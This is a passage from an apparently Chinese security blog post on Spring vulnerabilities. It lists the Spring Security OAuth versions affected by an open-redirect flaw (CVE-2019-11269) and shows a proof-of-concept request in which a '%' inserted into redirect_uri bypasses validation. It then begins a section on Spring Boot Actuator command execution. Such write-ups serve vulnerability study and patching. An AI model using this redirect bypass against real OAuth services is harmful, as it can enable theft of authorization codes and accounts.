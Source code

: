 ```


1.  `Spring Security OAuth 2.3 to 2.3.4`
2.  `Spring Security OAuth 2.2 to 2.2.3`
3.  `Spring Security OAuth 2.1 to 2.1.3`
4.  `Spring Security OAuth 2.0 to 2.0.16`


```

[https://medium.com/@riemannbernhardj/investigating-spring-security-oauth2-cve-2019-3778-and-cve-2019-11269-a-p-o-c-attack-44895f2a5e70](https://medium.com/@riemannbernhardj/investigating-spring-security-oauth2-cve-2019-3778-and-cve-2019-11269-a-p-o-c-attack-44895f2a5e70)

用户登录后，CLIENT APP执行的以下请求包含REDIRECT_URI参数。 只需添加一个百分号即可触发重定向，而不是通过RedirectMismatchException错误来绕过验证。

例如原始请求如下：

```


1.  `/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://localhost:8086/login`


```

只需要修改为：

```


1.  `/auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://%localhost:8086/login`


```

这样就不会产生原本的认证错误，而且直接跳转到地址

```


1.  `Location: http://localhost:8086/login`


```

### [](#CNVD-2019-11630-Spring-Boot-Actuator命令执行漏洞 "CNVD-2019-11630 Spring Boot Actuator命令执行漏洞")CNVD-2019-11630 Spring Boot Actuator命令执行漏洞

[https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#)

这个漏洞并不像是单一的问题产生，更像是一个渗透入侵的过程。有很多值得在意的知识点
